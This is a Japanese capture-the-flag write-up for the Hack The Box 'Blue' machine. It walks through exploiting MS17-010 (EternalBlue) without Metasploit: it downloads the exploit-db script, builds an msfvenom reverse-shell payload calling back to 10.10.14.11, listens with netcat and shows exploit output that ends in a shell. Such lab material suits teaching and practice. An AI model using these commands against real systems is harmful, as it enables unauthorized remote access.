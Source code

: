 # 侵入
まずはmetasploitなしで攻略しましょう。 
エクスプロイトに必要なものを落としてきます。  
この最後のmysmb.pyをダウンロードしておかないと、ImportError：mysmbと出るので先に落としておきましょう。   

```
wget https://www.exploit-db.com/raw/42315
mv 42315 eternalblue.py
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

次にimpacketもインストールしておかないと使うことができないので入れておきましょう。

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip install .
```

もしもここでpipが入っていないと警告が出た場合は、

```
sudo apt install python-pip
```
をして、pipもインストールしましょう。

次にリバースシェルに使うペイロードをmsfvenomを利用して作成します。

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=1234 -f exe > reverse.exe
```

次にeternalblue.pyのソースコードを変更してエクスプロイトに使用できるようにしましょう。
まずUSERNAMEのところを下記の画像のように変更します。

![スクリーンショット 2020-06-15 17.04.43.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/375fcd67-ae03-1b86-3641-9ba2fc3ec5d0.png)

次にsmb_pwn関数内のスクリプトを下記の画像のように変更します。

![スクリーンショット 2020-06-15 17.06.47.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/2ff690c1-adf5-20a0-5d7c-066e6ebd711b.png)

これで準備は完了です。
通信を受けるためにnetcatで待ち受けておきましょう。

```
nc -lvp 1234
```

最後にeternalblue.pyを実行します。

```
┌─[✗]─[yukitsukai@parrot]─[~/htb/Blue]
└──╼ $python eternalblue.py 10.10.10.40 ntsvcs
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8001af9560
SESSION: 0xfffff8a001bf5de0
.
.
.
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```
すると、通信を待ち受けていたnetcatの方でシェルが取得できます。
